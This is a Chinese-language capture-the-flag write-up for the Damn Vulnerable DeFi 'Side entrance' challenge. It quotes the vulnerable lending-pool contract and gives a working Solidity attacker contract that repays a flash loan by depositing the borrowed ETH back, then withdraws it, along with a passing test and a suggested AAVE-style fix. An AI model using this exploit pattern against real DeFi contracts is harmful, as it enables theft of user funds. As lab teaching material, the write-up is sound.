 # 🚪Challenge #4 - Side entrance 側門

![https://i.imgur.com/ElYSFA7.png](https://i.imgur.com/ElYSFA7.png)

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/side-entrance)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/side-entrance/side-entrance.challenge.js)

題目說有一個借貸池提供免費 [[FlashLoan]] 借貸的服務，我們的目標是將池子裡的 1000 ETH 歸給 attacker

## 合約研讀：尋找攻擊點

- 首先觀察一下flashLoan 的 function，會發現基本上我們只要想辦法讓 Balance 維持一樣就可以不用還錢，那我們有辦法把錢一樣留在池子裡面，但是改變所有權嗎？

```solidity
    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
```

- 再往下看可以看到有提款、存款的功能，是我們可以改變餘額、轉錢給自己的入口。所以我們可以使用合約發動攻擊，在 `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` 當中存錢到 `SideEntranceLenderPool` 當中，這樣餘額不會變，且 balance 的所有權也可以變成我們自己。

```solidity
    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }
```

## 實現攻擊

### 實現 IFlashLoanEtherReceiver 攻擊合約

- 寫一個實現 IFlashLoanEtherReceiver 的合約
- 實現 execute 中 deposit 給 pool，讓 pool 以為合約餘額沒有變就是已還款
- 實現可以收款、提款的功能

```mermaid
sequenceDiagram
  actor Attacker
  autonumber
    Attacker->>ReceiverAttackerSideEntrance: deploy
    Attacker->>ReceiverAttackerSideEntrance: attack
  rect rgb(191, 223, 255)
  note right of ReceiverAttackerSideEntrance: Attack Flow
  ReceiverAttackerSideEntrance->>SideEntranceLenderPool:flashLoan
  SideEntranceLenderPool--) ReceiverAttackerSideEntrance: ecucute
  ReceiverAttackerSideEntrance--) SideEntranceLenderPool: deposit(代替還款)
  SideEntranceLenderPool--)SideEntranceLenderPool: OK, 檢查餘額沒變
  end
  rect rgb(191, 223, 200)
  note right of ReceiverAttackerSideEntrance: Withdraw Flow
    Attacker->>ReceiverAttackerSideEntrance: withdraw
    ReceiverAttackerSideEntrance->>SideEntranceLenderPool: withdraw
  SideEntranceLenderPool-->>ReceiverAttackerSideEntrance: value
  ReceiverAttackerSideEntrance-->>Attacker: value
  end
```

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./SideEntranceLenderPool.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ReceiverAttackerSideEntrance is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    using Address for address payable;
    address owner;

    constructor(address _pool) {
        owner = msg.sender;
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() external payable override {
        pool.deposit{value: 1000 ether}();
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
    }

    function withdraw(uint amount) external {
        pool.withdraw();
        require(owner == msg.sender);
        payable(msg.sender).sendValue(amount);
    }

    fallback() external payable {}
}

```

### 滿足測試

```jsx
    it('Exploit', async function () {
        const receiverAttacker = await (await ethers.getContractFactory('ReceiverAttackerSideEntrance', attacker)).deploy(this.pool.address);
        await receiverAttacker.attack( ETHER_IN_POOL );
        await receiverAttacker.withdraw(ETHER_IN_POOL);
    });
```

```
  [Challenge] Side entrance
    ✓ Exploit (131ms)

  1 passing (1s)

✨  Done in 4.92s.
```

## 🔧 總結 & 修改方式

[操弄依變因攻擊](https://www.notion.so/2a0407b1936b4540a1b45c930e346336)

- **弱點：** 這題屬於 [[操弄依變因攻擊]]，
- **攻擊：** 通過把 pool 在 [[FlashLoan]] 借給我們的錢在重新存回 pool 通過了 pool 本身的 `address(this).balance >= balanceBefore` 檢查
- **改進：** 那要怎麼確保有還錢？而且還錢的一定是使用者？AAVE 的 FlashLoan 已經提供給我們解法，就是讓借貸者先 approve 然後 pool 合約本身做 transferFrom，這樣就可以確保，我們一定從借貸方抽取了借貸費用。 AAVE 有直接在[文件](https://docs.aave.com/developers/guides/flash-loans#completing-the-flash-loan)當中說明 ： > You **do not** need to transfer the owed amount back to the `Pool`. The funds will be automatically *pulled* at the conclusion of your operation.

借貸者需事先 approve 款項，AAVE V3 使用safeTransferFrom向使用者抽取費用，或者使用者也可以[使用抵押品來還錢](https://github.com/aave/aave-v3-core/blob/master/contracts/protocol/libraries/logic/FlashLoanLogic.sol#L132)。

## 4.4 完整合約

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping(address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}

```
